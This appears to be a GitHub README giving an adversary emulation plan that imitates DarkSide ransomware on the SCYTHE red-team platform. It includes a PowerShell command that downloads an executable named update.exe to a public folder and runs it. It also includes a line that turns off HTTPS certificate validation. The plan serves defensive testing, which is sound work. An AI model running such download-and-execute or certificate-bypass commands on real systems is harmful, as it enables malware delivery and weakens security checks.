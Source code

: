 # DarkSide Ransomware Adversary Emulation Plan

This threat is based on Cybereason's Cyber Threat Intelligence: https://www.cybereason.com/blog/cybereason-vs-darkside-ransomware

To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance - https://raw.githubusercontent.com/scythe-io/community-threats/master/DarkSide/DarkSide_scythe_threat.json
2. Download the Virtual File System (VFS) files under DarkSide/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/DarkSide
4. Ensure HTTP Relay is running on your SCYTHE server.
5. Create a new campaign, selecting HTTP, and ensuring the communication options match your HTTP Relay.
6. Import from Existing Threat: DarkSide
7. Launch Campaign
8. Click More Actions and copy the URL for the desired EXE. 
9. In the target system, run this PowerShell command with the respective URL: powershell -Command "(New-Object Net.WebClient).DownloadFile('<SCYTHE EXE URL>','C:\Users\Public\update.exe')"
10. Execute update.exe

Note, to get around HTTPS certificate validation issues:
- Open a PowerShell command prompt
- [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
- (New-Object Net.WebClient).DownloadFile('<SCYTHE EXE URL>','C:\Users\Public\update.exe')
- C:\Users\Public\update.exe
